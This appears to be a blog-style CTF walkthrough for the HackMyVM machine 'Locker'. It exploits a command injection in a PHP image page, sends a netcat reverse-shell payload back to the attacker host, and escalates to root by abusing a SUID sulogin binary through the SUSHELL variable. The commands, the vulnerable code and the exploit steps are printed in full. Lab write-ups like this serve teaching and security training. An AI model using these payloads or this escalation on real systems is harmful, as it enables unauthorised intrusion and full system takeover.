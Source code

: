 ```yaml
---
title: CTF Walkthrough for HackMyVM Machine Locker
category: [Walkthrough, CTF]
tags: [HackMyVM, Writeup, Command Injection]   
image:
  path: /assets/img/posts/walthrough/hackmyvm/2024-09-21-locker/box-locker.png
---
```


## Introduction
Greetings everyone, in this walkthrough, we will talk about Locker a machine among HackMyVM machines. This walkthrough is not only meant to catch the flag but also to demonstrate how a penetration tester will approach this machine in a real-world assessment.
This machine was set up using VirtualBox as recommended by the creator and the Network configuration was changed to 'Nat Network'.
### Machine Description
Name: Locker<br>
Goal: Get two flags<br>
OS: Linux<br>
Download link: [Locker](https://downloads.hackmyvm.eu/locker.zip)<br>
### Tools used
1) Nmap<br>
3) ffuf<br>
4) Netcat<br>
5) Zaproxy<br>

## Reconnaissance

This machine reveals its IP address on startup, we can use that address to perform a service discovery scan on the target.
```bash
┌──(pentester㉿kali)-[~/Locker/Scans/Service]
└─$nmap -sC -sV -n 10.0.2.24 -oN service-scan.nmap
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-21 09:49 BST
Nmap scan report for 10.0.2.24
Host is up (0.0019s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.14.2
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.14.2

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.47 seconds
```

The target appears to run only an Nginx web server. Let's visit this web application to understand how it works.
![](/assets/img/posts/walthrough/hackmyvm/2024-09-21-locker/1-browse.png)

We see that the server runs a simple web application. When we click on Model 1, we are redirected to the locker.php page that displays the image of a locker.
![](/assets/img/posts/walthrough/hackmyvm/2024-09-21-locker/2-browse.png)

If we take a closer look at the request made, we will notice that the image is embedded in web pages without separate files as a base64 string and rendered with the help of the data PHP filter. This means the image is first encoded in the backend and the base64 string is passed to the page for it to be displayed.
![](/assets/img/posts/walthrough/hackmyvm/2024-09-21-locker/raw-requests.png)

Converting an image from binary to base64 can be done in several ways, one includes running system commands and capturing the value returned. With this idea, we can start testing the web application for any command injection vulnerability. If we assume that the value of the parameter image is the name of the image, it means this value is used in the command. Let's embed our command in ```$()``` to ensure that it is always executed. We can start a listener on our attack host and attempt to connect to that listener from the target machine.
![](/assets/img/posts/walthrough/hackmyvm/2024-09-21-locker/command-injection-proof.png)

## Exploitation

In the image above, we see that the target is connected to our attack host hence the web application is vulnerable to command injection. Now, let's gain a reverse shell on the target.
```bash
Listener: nc -lvnp 9000
Payload : $(nc -c bash 10.0.2.16 9000)
```
![](/assets/img/posts/walthrough/hackmyvm/2024-09-21-locker/reverse-shell.png)

We can use these commands to upgrade the shell above to a fully interactive shell to facilitate our enumeration process.
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")' 
www-data@locker:~/html$ ^Z
zsh: suspended  nc -lvnp 9000

┌──(pentester㉿kali)-[~/Locker]
└─$stty raw -echo;fg
[1]  + continued  nc -lvnp 9000
                               export TERM=xterm
www-data@locker:~/html$ 
```

We can optionally read the code to understand its functioning and how our command injection came to live.
```bash
www-data@locker:~/html$ ls
1.jpg  2.jpg  3.jpg  index.html  locker.php
www-data@locker:~/html$ cat locker.php 
<?php
$image = $_GET['image'];
$command = "cat ".$image.".jpg | base64";
$output = shell_exec($command);
print'<img src="data:image/jpg;base64,'.$output.'"width="150"height="150"/>';
?>
```

## Post Exploitation

At this point in our assessment, we have obtained a foothold on the target and we would like to elevate our privileges to that of the root user. We can start our enumeration by listing all binaries with the SUID bit set.
```bash
www-data@locker:~$ find / -perm -4000 -exec ls -ldb {} \; 2>/dev/null
<SNIP>
-rwsr-sr-x 1 root root 47184 Jan 10  2019 /usr/sbin/sulogin
-rwsr-xr-x 1 root root 34888 Jan 10  2019 /usr/bin/umount
<SNIP>
www-data@locker:~$ 
```

We can see that the target has an uncommon binary called sulogin with a SUID bit set. Unfortunately, GTFOBin doesn't have any entry for this binary so let's read its man page to understand what it does.
```bash
www-data@locker:~$ man sulogin
<SNIP>
OPTIONS                                                        
       -e, --force                                                                                                                                           
              If  the  default  method of obtaining the root password from the 
              system via  getpwnam(3)  fails,  then  examine  /etc/passwd  and
              /etc/shadow  to get the password.  If these files are damaged or 
              nonexistent, or when root account is locked by '!' or '*' at the 
              begin of the password then sulogin will start a root shell with‐
              out asking for a password.
<SNIP>
ENVIRONMENT VARIABLES
       sulogin looks for the environment variable SUSHELL or sushell to deter‐
       mine what shell to start.  If the environment variable is not  set,  it
       will  try  to execute root\'s shell from /etc/passwd.  If that fails, it
       will fall back to /bin/sh.
<SNIP>
www-data@locker:~$ 
```

The man page reveals that this binary can be used to start the shell stored in the SUSSHELL environment variable. Also, when used with the -e options we can start a root shell without asking for a password. To exploit this binary, let's create a custom shell that elevates our privilege directly to that of the root user by leveraging the permissions offered by the SUID bit. We can use Python to create a short script as shown below.
```bash
www-data@locker:/tmp$ cat shell 
#!/usr/bin/python3

import os
os.setuid(0)
os.setgid(0)
os.system("/bin/bash")
www-data@locker:/tmp$ chmod 755 shell 
www-data@locker:/tmp$ ls -la shell 
-rwxr-xr-x 1 www-data www-data 79 Sep 21 07:49 shell
```

Next, let's set the SUSSHELL variable to the path to our custom shell and run the sulogin command with the -e option.
```bash
www-data@locker:/tmp$ export SUSHELL=/tmp/shell
www-data@locker:/tmp$ /usr/sbin/sulogin -e
Press Enter for maintenance
(or press Control-D to continue): 
root@locker:~# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
root@locker:~# ls /root
flag.sh  root.txt
root@locker:~# 
root@locker:~# ls -l /home/tolocker/  
total 8
-rwxr-xr-x 1 tolocker tolocker 1920 Jan 22  2021 flag.sh
-rw------- 1 tolocker tolocker   14 Jan 22  2021 user.txt
```
Great, we successfully obtained a root shell on the target. We can use this shell to read both flags on the system as shown above.

## Conclusion

Congratulations! In this walkthrough, you have exploited a command injection vulnerability to obtain a foothold on the target. This machine was designed to show the importance of sanitising user input before using it in system commands. Thank you for following up on this walkthrough.
